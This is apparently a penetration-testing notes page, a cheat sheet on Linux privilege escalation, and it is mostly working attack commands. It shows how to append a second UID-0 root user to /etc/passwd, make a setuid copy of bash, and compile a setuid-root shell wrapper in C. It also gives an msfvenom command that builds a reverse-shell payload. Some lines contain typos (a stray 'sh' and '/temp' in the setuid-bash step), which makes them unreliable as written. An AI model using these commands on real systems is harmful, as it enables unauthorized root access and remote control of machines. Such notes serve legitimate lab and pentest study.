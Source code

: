 # Linux Privilege Escalation
* [General tips](#General-tips)
* [Tools](#Tools)
* [Manual Enumeration](#Manual-Enumeration)
* [Privilege escalation techniques](#Privilege-escalation-techniques)


## General tips
- https://gtfobins.github.io/

### Easy ways to get root
#### 1. Cat a new root user entry to /etc/passwd
```
openssl passwd <PASS> #generate password
echo "root2:<OPENSSL OUTPUT>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2 #sudo to root with the password set
```

#### 2. Copy /bin/bash and set suid bit
```
cp /bin/bash /tmp/rootbash sh; chmod +s /temp/rootbash
/tmp/rootbash -p
```

#### 3. If a process executes another process which we control.
   - Compile the following C code
   ```
   int main() {
   setuid(0);
   system("/bin/bash -p");
   }
   ```
   - gcc -o <NAME> <FILENAME.C>

#### 4. MSFVenom shell
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

## Tools
#### Ise.sh (favorite from tib3rius)
https://github.com/diego-treitos/linux-smart-enumeration

```
./lse.sh
./lse.sh -l 1 -i #get more information
./lse.sh -l 2 -i #get more and more information
```

#### Linenum
https://github.com/rebootuser/LinEnum
